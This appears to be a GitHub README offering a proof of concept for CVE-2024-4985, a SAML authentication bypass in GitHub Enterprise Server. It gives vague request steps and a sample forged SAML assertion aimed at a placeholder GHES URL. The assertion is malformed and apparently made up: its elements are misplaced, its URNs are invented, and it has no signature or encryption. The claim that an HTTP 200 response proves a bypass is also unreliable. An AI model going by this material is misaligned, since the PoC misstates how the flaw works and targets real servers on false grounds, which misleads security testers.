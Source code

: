 # Bypass-authentication-GitHub-Enterprise-Server CVE-2024-4985
The authentication bypass vulnerability in GitHub Enterprise Server (GHES) allows an unauthorized attacker to access an instance of GHES without requiring pre-authentication. The vulnerability affects all GHES versions prior to 3.13.0.

## Technical vulnerability details:
The vulnerability exploits a vulnerability in the way GHES handles encrypted SAML claims.
An attacker could create a fake SAML claim that contains correct user information.
When GHES processes a fake SAML claim, it will not be able to validate its signature correctly, allowing an attacker to gain access to the GHES instance.

## Poc:

Steps:
* Open your penetration tester.
* Create a Web Connection Request. 
* Select the "GET" request type.
* Enter your GHES URL.
* Add a fake SAML Assertion parameter to your request. You can find an example of a fake SAML Assertion parameter in the GitHub documentation.
* Check the GHES response.
* If the response contains an HTTP status code of 200, it has successfully bypassed authentication using the fake SAML Assertion parameter.
* If the response contains a different HTTP status code, it did not succeed in bypassing authentication.

------------------------------------------------------------------
Note: I'm going to synthesize an example using a dummy URL (https://your-ghes-instance.com). Be sure to replace it with your real GHES URL.
In this example, we'll assume that your GHES URL is https://your-ghes-instance.com. We'll use a fake SAML Assertion parameter that looks like this:

```
<Assertion ID="1234567890" IssueInstant="2024-05-21T06:40:00Z" Subject="CN=John Doe,OU=Users,O=Acme Corporation,C=US">
  <Audience>https://your-ghes-instance.com</Audience>
  <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:assertion:method:bearer">
    <SubjectConfirmationData>
      <NameID Type="urn:oasis:names:tc:SAML:2.0:nameid-type:persistent" Format="urn:oasis:names:tc:SAML:2.0:nameid-format:basic">jdoe</NameID>
    </SubjectConfirmationData>
  </SubjectConfirmation>
  <AuthnStatement AuthnInstant="2024-05-21T06:40:00Z" AuthnContextClassRef="urn:oasis:names:tc:SAML:2.0:assertion:AuthnContextClassRef:unspecified">
    <AuthnMethod>urn:oasis:names:tc:SAML:2.0:methodName:password</AuthnMethod>
  </AuthnStatement>
  <AttributeStatement>
    <Attribute Name="urn:oid:1.3.6.1.4.1.11.2.17.19.3.4.0.10">Acme Corporation</Attribute>
    <Attribute Name="urn:oid:1.3.6.1.4.1.11.2.17.19.3.4.0.4">jdoe@acme.com</Attribute>
  </AttributeStatement>
</Assertion>
```
